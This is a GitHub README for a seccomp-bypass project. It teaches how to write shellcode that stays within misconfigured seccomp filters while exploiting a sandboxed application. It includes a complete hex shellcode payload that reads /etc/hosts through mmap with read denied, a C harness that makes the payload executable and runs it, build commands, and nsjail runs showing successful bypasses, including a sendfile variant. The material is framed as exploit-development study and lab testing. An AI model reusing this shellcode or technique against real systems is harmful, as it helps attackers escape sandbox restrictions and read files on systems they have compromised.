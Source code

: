 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. You need shellcode that will carry out its purpose while still adhering to the application's seccomp filter. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

**Bypasses are possible not because seccomp is flawed, but because sometimes seccomp filters are inappropriately configured. Just like an exploit takes advantage of programming mistakes, these bypasses take advantage of configuration mistakes.**

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. If it's sandboxed, you need to tailor the shellcode to include only the permitted system calls.

The code below is a generated application, contrived purely to run test shellcode from `src/`. The output is a test program that we run to confirm the shellcode's viability when injected into a foreign application.

&gt;: ./gen-shellcode.sh src/read-with-mmap.s
```c
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcodes that perform each section's goal within certain system call constraints. Each goal has one or more shellcodes using a combination of system call combinations to achieve it.

*To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy.*

## Read a file from the filesystem
Each of these examples reads the file `/etc/hosts` from the target system without using the typical `read(2)` call.
### Syscalls required: `open`,`exit`,`write`, `mmap`
This example is based on shellcode from `src/read-with-mmap.s`. You can see the line `127.0.0.1	localhost` present in the output below, which is a sign the seccomp filter is bypassed successfully.

Try replacing the `read` in the DENY clause with `open`,`exit`,`write`, or `mmap`. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.

Generate the program:
```bash
f=`tempfile`; ./gen-shellcode.sh src/read-with-mmap.s > $f.c; gcc -static $f.c -o $f
```

Now run it with `nsjail`:
```bash
>:~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $f
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Executing '/tmp/fileVRncd7' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

Below shows a default DENY policy. You'll need to allow a few more system calls to use it in this example. This is a wider set of calls than what is required of an application in the wild, which does "start > set seccomp filter > fork", because in this example case we have to interact with the OS to set up the process space first (doing an `execve` and not just a `fork`.

```bash
~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { ALLOW { read, open, write, mmap, execve, newuname, brk, arch_prctl, readlink, access, mprotect, exit } } USE a DEFAULT DENY' -- $f
```

### Syscalls required: `open`, `sendfile`
This example is based on shellcode from `src/read-with-sendfile.s`. We can get away with reading a file with just these two system calls, explicitly denying the typical `read` and `mmap` calls.

```bash
>: f=`tempfile`; ./gen-shellcode.sh src/read-with-sendfile.s > $f.c; gcc -static $f.c -o $f
>: ~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read,write,mmap } } USE a DEFAULT ALLOW' -- $f
[2017-05-15T16:03:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-15T16:03:04-0700] Executing '/tmp/fileCNqBB4' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

An example with default DENY:
```bash
~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { ALLOW { open, sendfile64, execve, newuname, brk, arch_prctl, readlink, access, mprotect, exit } } USE a DEFAULT DENY' -- $f
```
